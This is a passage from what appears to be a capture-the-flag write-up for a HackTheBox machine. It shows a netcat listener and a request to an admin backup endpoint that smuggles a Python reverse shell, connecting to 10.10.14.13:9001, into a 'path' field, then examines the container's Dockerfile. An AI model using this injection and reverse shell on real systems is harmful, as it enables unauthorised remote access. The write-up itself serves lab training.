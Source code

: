 Set up a netcat listener:

```bash
rlwrap nc -nlvp 9001
```

### Using nohup for Background Execution

Since the server has limited workers, we need to use nohup to avoid hanging:

```bash
POST /admin/backup HTTP/1.1
Host: api.mentorquotes.htb
Authorization: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImphbWVzIiwi\
ZW1haWwiOiJqYW1lc0BtZW50b3JxdW90ZXMuaHRiIn0.peGpmshcF666bimHkYIBKQN7hj5m785uKcjwbD--Na0
Content-Type: application/json

{
  "path": "/etc/passwd; export RHOST=\"10.10.14.13\"; export RPORT=9001; \
nohup python -c 'import sys,socket,os,pty;s=socket.socket(); \
s.connect((os.getenv(\"RHOST\"),int(os.getenv(\"RPORT\")))); \
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")' #"
}
```

## Post-Exploitation

### Container Analysis

Once we get a shell, we're in a Docker container. Let's examine the environment:

```bash
# View Dockerfile
cat Dockerfile
```

```dockerfile
FROM python:3.6.9-alpine

RUN apk --update --upgrade add --no-cache  gcc musl-dev jpeg-dev zlib-dev libffi-dev cairo-dev pango-dev gdk-pixbuf-dev

WORKDIR /app
ENV HOME /home/svc
ENV PATH /home/svc/.local/bin:${PATH}
RUN python -m pip install --upgrade pip --user svc
COPY requirements.txt requirements.txt
RUN pip install -r requirements.txt
RUN pip install pydantic[email] pyjwt
EXPOSE 8000
COPY . .
CMD ["python3", "-m", "uvicorn", "app.main:app", "--reload", "--workers", "100", "--host", "0.0.0.0", "--port" ,"8000"]
```
